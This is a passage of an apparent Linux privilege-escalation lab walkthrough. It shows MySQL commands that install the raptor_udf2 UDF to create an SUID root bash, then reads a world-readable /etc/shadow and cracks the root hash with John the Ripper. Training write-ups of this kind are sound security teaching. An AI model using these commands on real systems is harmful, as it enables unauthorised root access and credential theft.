 ```
```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

* Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');```

* Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```/tmp/rootbash -p```

* Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!

```
rm /tmp/rootbash
exit
```

--- 
* Answer the questions below
* Read and follow along with the above.

```
No Answer needed
```


## Task 3: Weak File Permissions - Readable /etc/shadow

* The /etc/shadow file contains user password hashes and is usually readable only by the root user.

* Note that the /etc/shadow file on the VM is world-readable:

```ls -l /etc/shadow```

* View the contents of the /etc/shadow file:

```cat /etc/shadow```

* Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.

* Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:

```john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt```

* Switch to the root user, using the cracked password:

```su root```

> __Remember to exit out of the root shell before continuing!__

---

* Answer the questions below

```